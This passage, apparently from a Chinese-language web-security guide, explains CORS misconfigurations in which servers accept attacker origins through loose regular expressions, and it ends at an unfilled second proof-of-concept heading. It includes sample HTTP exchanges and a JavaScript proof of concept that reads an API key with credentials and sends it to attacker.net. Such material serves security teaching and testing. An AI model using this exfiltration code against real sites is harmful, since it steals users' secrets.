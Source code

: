 ### 扩展Origin

有时，原始origin的某些扩展没有被服务器端过滤。这可能是由于使用了实现不佳的正则表达式来验证origin头。

#### 易受攻击的实现（示例1）

在这种情况下，插入到`example.com`前面的任何前缀都将被服务器接受。

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### 概念验证（示例1）

此PoC要求相应的JS脚本托管在`evilexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

#### 易受攻击的实现（示例2）

在这种情况下，服务器使用的正则表达式中点号没有正确转义。例如，使用了`^api.example.com$`而不是`^api\.example\.com$`。因此，点号可以用任何字母替换，从而允许从第三方域访问。

```ps1
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### 概念验证（示例2）
